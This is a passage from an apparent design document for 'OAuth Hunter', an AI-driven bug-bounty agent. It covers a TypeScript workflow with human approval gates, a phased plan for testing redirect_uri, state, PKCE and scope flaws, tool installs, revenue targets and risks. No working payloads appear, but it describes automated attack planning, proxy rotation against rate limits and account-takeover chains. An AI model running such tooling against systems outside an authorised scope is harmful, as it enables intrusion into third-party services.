  async execute(target: string, scope: Scope): Promise<WorkflowResult> {
    // Phase 1: Strategic Planning
    const strategy = await this.supervisor.analyzeTarget(target, scope.domains);
    
    // Phase 2: Discovery (Auto-approved)
    const endpoints = await this.oauthHunter.discoveryEngine.discover(target);
    
    // Phase 3: Testing (Requires approval for each test)
    const vulnerabilities: OAuthVulnerability[] = [];
    
    for (const endpoint of endpoints) {
      // Request human approval for testing
      const approved = await this.humanTask.requestApproval({
        action: 'test_oauth_endpoint',
        target: endpoint.url,
        description: `Test OAuth endpoint for vulnerabilities`,
        risk: 'medium',
        commands: this.generateTestCommands(endpoint)
      });
      
      if (approved) {
        const vulns = await this.oauthHunter.testEndpoint(endpoint);
        vulnerabilities.push(...vulns);
      }
    }
    
    // Phase 4: Validation (Auto-approved for non-destructive tests)
    const validated = await this.oauthHunter.validateFindings(vulnerabilities);
    
    // Phase 5: Reporting (Requires approval before submission)
    for (const vuln of validated) {
      const poc = await this.oauthHunter.pocGenerator.generate(vuln);
      
      const submitApproved = await this.humanTask.requestApproval({
        action: 'submit_report',
        target: vuln.endpoint.url,
        description: `Submit ${vuln.type} vulnerability report`,
        risk: 'low',
        preview: poc
      });
      
      if (submitApproved) {
        await this.submitReport(vuln, poc);
      }
    }
    
    return {
      endpointsTested: endpoints.length,
      vulnerabilitiesFound: validated.length,
      reportsSubmitted: validated.filter(v => v.submitted).length
    };
  }
}
```

---

## 8. Implementation Plan

### Phase 1: Foundation (Week 1)
**Goal:** Core data models and discovery engine

**Tasks:**
1. Implement `OAuthEndpoint` and `OAuthVulnerability` interfaces
2. Create `OAuthDiscoveryEngine` class
3. Implement well-known endpoint discovery
4. Add waybackurls integration
5. Create basic nuclei template runner
6. Write unit tests for discovery

**Deliverables:**
- [ ] Data models defined
- [ ] Discovery engine finds OAuth endpoints
- [ ] 80%+ test coverage

### Phase 2: redirect_uri Attack Vector (Week 2)
**Goal:** Highest priority attack vector fully functional

**Tasks:**
1. Implement `RedirectUriAttackVector` class
2. Create payload database (10+ payloads)
3. Add HTTP client with redirect control
4. Implement vulnerability detection logic
5. Add human approval integration
6. Create PoC generator for redirect_uri vulns
7. Write comprehensive tests

**Deliverables:**
- [ ] redirect_uri tester working
- [ ] Detects open redirects
- [ ] Detects token theft
- [ ] Detects XSS via redirect_uri
- [ ] Generates professional PoCs

### Phase 3: State Parameter Testing (Week 3)
**Goal:** Second priority attack vector

**Tasks:**
1. Implement `StateParameterAttackVector` class
2. Add missing state detection
3. Add predictable state detection
4. Add state fixation testing
5. Add state reuse testing
6. Create PoC templates
7. Write tests

**Deliverables:**
- [ ] State parameter tester working
- [ ] Detects all 4 state issues
- [ ] Generates PoCs

### Phase 4: PKCE & Scope Testing (Week 4)
**Goal:** Complete all 4 attack vectors

**Tasks:**
1. Implement `PKCEBypassAttackVector` class
2. Implement `ScopeEscalationAttackVector` class
3. Add PKCE bypass detection
4. Add scope escalation detection
5. Create PoC templates
6. Write tests

**Deliverables:**
- [ ] All 4 attack vectors functional
- [ ] End-to-end testing works
- [ ] PoC generation for all types

### Phase 5: Validation & Duplicate Detection (Week 5)
**Goal:** Reduce false positives and duplicates

**Tasks:**
1. Implement `ValidationEngine` class
2. Add second-opinion validation
3. Integrate `DuplicateChecker`
4. Add Qdrant storage
5. Implement similarity search
6. Create confidence scoring
7. Write tests

**Deliverables:**
- [ ] False positive rate < 15%
- [ ] Duplicate detection working
- [ ] Confidence scores accurate

### Phase 6: Memory & Learning (Week 6)
**Goal:** Agent learns from successes

**Tasks:**
1. Implement `OAuthLearningSystem` class
2. Create Qdrant collections
3. Add pattern extraction
4. Implement suggestion engine
5. Add payload variation generation
6. Write tests

**Deliverables:**
- [ ] Successful vulns stored in Qdrant
- [ ] Patterns extracted and reused
- [ ] Agent suggests next tests

### Phase 7: Integration & Polish (Week 7)
**Goal:** Full integration with Huntress

**Tasks:**
1. Integrate with CrewAI supervisor
2. Add human approval workflow
3. Integrate with reporting pipeline
4. Add rate limiting
5. Add proxy support
6. Create comprehensive documentation
7. End-to-end testing

**Deliverables:**
- [ ] Full integration working
- [ ] Human-in-the-loop functional
- [ ] Reports auto-generated
- [ ] Documentation complete

### Phase 8: Real-World Testing (Week 8)
**Goal:** Validate on real targets

**Tasks:**
1. Test on HTB machines
2. Test on bug bounty programs
3. Collect metrics
4. Refine based on results
5. Submit first reports
6. Iterate based on feedback

**Deliverables:**
- [ ] 5+ HTB machines tested
- [ ] 3+ real vulnerabilities found
- [ ] First bounty submitted
- [ ] Metrics collected

---

## 9. Dependencies & Prerequisites

### 9.1 System Dependencies

```bash
# HTTP tools
npm install axios
npm install httpx-cli

# OAuth tools
npm install openid-client
npm install jose # JWT handling

# Discovery tools
go install github.com/tomnomnom/waybackurls@latest
go install -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei@latest

# Fuzzing
npm install @faker-js/faker

# Crypto (for PKCE)
npm install crypto-js
```

### 9.2 Nuclei Templates

```bash
# Download OAuth-specific templates
nuclei -update-templates
nuclei -t oauth/ -list
```

### 9.3 Qdrant Setup

```bash
# Run Qdrant locally
docker run -p 6333:6333 qdrant/qdrant

# Or use Qdrant Cloud
# https://cloud.qdrant.io
```

### 9.4 API Keys Required

- Anthropic API (for supervisor)
- HackerOne API (for reporting)
- Burp Collaborator or Interactsh (for callback testing)
- Optional: Qdrant Cloud API key

---

## 10. Success Metrics

### 10.1 Technical Metrics

- **Discovery Rate:** Find 90%+ of OAuth endpoints
- **False Positive Rate:** < 15%
- **Duplicate Rate:** < 5%
- **Test Coverage:** > 85%
- **Performance:** < 30 seconds per endpoint

### 10.2 Business Metrics

- **First Vulnerability:** Within 2 weeks of completion
- **First Bounty:** Within 1 month
- **Average Bounty:** > $4,000
- **Acceptance Rate:** > 70%
- **Monthly Revenue:** $10,000+ by month 3

### 10.3 Learning Metrics

- **Pattern Recognition:** 80%+ accuracy
- **Suggestion Quality:** 70%+ success rate
- **Payload Effectiveness:** Improve 20% per month
- **Time to Find:** Decrease 30% per month

---

## 11. Risk Mitigation

### 11.1 Technical Risks

| Risk | Impact | Mitigation |
|------|--------|------------|
| False positives | High | Implement validation engine, second-opinion testing |
| Rate limiting | Medium | Add intelligent rate limiting, proxy rotation |
| Scope violations | Critical | Strict scope checking, human approval for risky tests |
| Tool failures | Medium | Fallback mechanisms, error handling |
| API rate limits | Low | Caching, request batching |

### 11.2 Business Risks

| Risk | Impact | Mitigation |
|------|--------|------------|
| Duplicate submissions | High | Mandatory duplicate checking before submission |
| Under-pricing | Medium | Severity predictor, historical data analysis |
| Program bans | Critical | Respect scope, rate limits, human approval |
| Low acceptance rate | High | Validation engine, confidence scoring |

---

## 12. Future Enhancements

### 12.1 Phase 9+ Features

1. **OAuth Provider Fingerprinting**
   - Detect OAuth provider (Google, GitHub, Auth0, etc.)
   - Use provider-specific attack patterns
   - Leverage known provider vulnerabilities

2. **Automated Token Analysis**
   - JWT parsing and validation
   - Token expiration testing
   - Token reuse detection
   - Refresh token testing

3. **OAuth Flow Visualization**
   - Generate flow diagrams
   - Visualize attack paths
   - Create interactive PoCs

4. **Multi-Step Attack Chains**
   - Chain OAuth vulns with other bugs
   - OAuth → SSRF chains
   - OAuth → XSS chains
   - OAuth → Account takeover

5. **Machine Learning Enhancements**
   - Predict vulnerability likelihood
   - Optimize payload selection
   - Auto-tune confidence thresholds
   - Pattern clustering

---

## 13. Conclusion

This architecture provides a comprehensive, production-ready design for the OAuth Hunter agent. The implementation plan is structured to deliver value incrementally, with the highest-priority attack vector (redirect_uri) completed first.

**Key Success Factors:**
1. Focus on redirect_uri manipulation first ($4,800 avg bounty)
2. Mandatory duplicate detection (prevents 80% waste)
3. Human-in-the-loop for safety
4. Learning system for continuous improvement
5. Professional PoC generation for high acceptance rates

**Next Steps:**
1. Review and approve this architecture
2. Begin Phase 1 implementation
3. Set up development environment
4. Create initial test suite
5. Start building discovery engine

The OAuth Hunter will be the foundation of Huntress's revenue generation, targeting the highest-value vulnerabilities in the bug bounty ecosystem.